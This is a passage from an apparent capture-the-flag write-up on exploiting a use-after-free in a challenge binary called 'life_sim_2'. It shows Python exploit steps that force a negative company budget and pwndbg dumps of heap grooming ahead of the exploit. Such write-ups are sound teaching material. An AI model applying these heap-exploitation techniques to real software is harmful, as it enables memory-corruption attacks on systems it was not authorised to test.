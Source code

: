 ### Going bankrupt

Plotting the function in Desmos, this is what we get:

![Company budget against number of workers](@images/2024/sekai-2024/life_sim_2-desmos.png)

After playing with the values for a bit, I got an x-intercept very close to 43
workers.

```python
add_company(b"target-c", 1000)
add_project(b"target-c", b"target-p", 5160)

for i in range(43):
    hire_worker(b"target-c", b"target-p", b"john" + str(i).encode(), 0x40)

elapse_week()
```

Of course, because of rounding, this value won't be exact.

```
pwndbg> tel 0x555555588330
00:0000│  0x555555588330 ◂— 'target-c'
01:0008│  0x555555588338 ◂— 0
02:0010│  0x555555588340 ◂— 0xfffffffffffff928
03:0018│  0x555555588348 ◂— 1
04:0020│  0x555555588350 —▸ 0x555555588430 —▸ 0x5555555883e0 —▸ 0x5555555883f0 ◂— 'target-p'
05:0028│  0x555555588358 —▸ 0x555555588438 ◂— 0
06:0030│  0x555555588360 —▸ 0x555555588438 ◂— 0
07:0038│  0x555555588368 ◂— 0x21 /* '!' */
```

But we can rectify this by adjusting the company's initial budget by
`0xffffffffffffffff - 0xfffffffffffff928 + 1 = 1752{:python3}`.

### Leaking heap

Now we're almost ready to exploit our UAF, but we need to groom the heap a
little first. Our approach to the UAF will be to misalign the heap against our
UAF project, so that something like this happens:

```
pwndbg> bins
tcachebins
0x20 [  3]: 0x5555555884a0 —▸ 0x5555555888a0 —▸ 0x555555588430 ◂— 0
0x30 [  3]: 0x5555555882c0 —▸ 0x555555588900 —▸ 0x5555555882f0 ◂— 0
0x40 [  7]: 0x555555589cb0 —▸ 0x555555589c70 —▸ 0x555555589c30 —▸ 0x555555589bf0 —▸ 0x555555589bb0 —▸ 0x555555589b70 —▸ 0x555555588cb0 ◂— 0
0x50 [  7]: 0x555555588560 —▸ 0x555555588510 —▸ 0x5555555884c0 —▸ 0x555555588450 —▸ 0x5555555883e0 —▸ 0x555555588a00 —▸ 0x5555555889b0 ◂— 0
0x90 [  3]: 0x555555588740 —▸ 0x555555588be0 —▸ 0x555555588b50 ◂— 0
0x100 [  1]: 0x555555589d30 ◂— 0
0x110 [  2]: 0x555555588fc0 —▸ 0x555555588eb0 ◂— 0
0x1f0 [  1]: 0x555555589e30 ◂— 0
0x210 [  1]: 0x5555555894d0 ◂— 0
0x3d0 [  1]: 0x55555558a020 ◂— 0
0x410 [  1]: 0x55555558ab80 ◂— 0
fastbins
empty
unsortedbin
empty
smallbins
0x40: 0x555555589ce0 —▸ 0x15555514cb50 ◂— 0x555555589ce0
0x50: 0x5555555887c0 —▸ 0x555555588310 —▸ 0x555555588380 —▸ 0x15555514cb60 ◂— 0x5555555887c0
0x190: 0x5555555885a0 —▸ 0x15555514cca0 ◂— 0x5555555885a0
largebins
```